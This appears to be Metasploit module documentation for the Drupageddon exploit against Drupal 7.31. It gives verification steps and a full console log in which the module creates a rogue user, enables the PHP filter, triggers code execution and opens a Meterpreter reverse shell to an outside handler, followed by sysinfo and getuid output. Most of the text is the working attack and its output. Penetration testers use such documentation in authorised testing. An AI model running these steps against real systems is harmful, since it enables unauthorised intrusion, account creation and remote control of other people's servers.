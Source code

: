 ## Vulnerable Application

  Drupal 7.31 official [download](https://ftp.drupal.org/files/projects/drupal-7.31.tar.gz)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/drupal_drupageddon`
  4. Do: `set rhost <ip>`
  5. Do: `run`
  6. You should get a shell.

## Scenarios

  This is a run against a Drupal 7.31 linux box.

  ```
msf > use exploit/multi/http/drupal_drupageddon
msf exploit(drupal_drupageddon)
msf exploit(drupal_drupageddon) > set rhost 1.1.1.1
rhost => 1.1.1.1
msf exploit(drupal_drupageddon) > set verbose true
verbose => true
msf exploit(drupal_drupageddon) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444
[*] Testing page
[*] form_build_id: form-a1VaaaEaa0lUvL79wIAfdQEaaJRw8P7a1aWGXElI_Go
[*] form_token:
[*] password hash: $P\$8zAAApjTciVA2qz7HdAA0UjAAwUft00
[*] Creating new user AaCaUlLaPR:AAgeAAAAjA
[*] Logging in as AaCaUlLaPR:AAgeAAAAjA
[*] cookie: SESS911797186fac11111d08b1111a15db55=aaSfinhC0AAAAbzhAoO3bBaaOerRrvpn3cL0rA77Dhg;
[*] Trying to parse enabled modules
[*] form_build_id: form-YZljDkG8n5AAaAaAaaaYGLaP8MIfdif5VfwjQMMxdN0
[*] form_token: Bj92oAaAaWRwqyAAAySWQpeUI03aA9wfkAozXsk_t_E
[*] Enabling the PHP filter module
[*] Setting permissions for PHP filter module
[*] form_build_id: form-1Z1pAg11amM-1jHALgm1AAAAA1JdwAAA1qXnSTZahPA
[*] form_token: kAA1A1AfqK_PvJQi1AAAAAAAAxyGyLvHemBor1q11Z1
[*] admin role id: 3
[*] Getting tokens from create new article page
[*] form_build_id: form-_-leQaaaAAeBXbAaAAaaAAx1IrYSI1qeA2OGf2Ce1vs
[*] form_token: Ib1y8aAaaAAAdapA53kUcfWf7msTRHiDUb_CIKzAAAA
[*] Calling preview page. Exploit should trigger...
[*] Sending stage (33721 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:45388) at 2016-08-25 11:30:41 -0400

meterpreter > sysinfo
Computer : drupal
OS : Linux drupal 2.6.32-642.3.1.el6.x86_64 #1 SMP Sun Jun 26 18:16:44 EDT 2016 x86_64
Meterpreter : php/linux

meterpreter > getuid
Server username: apache (48)
  ```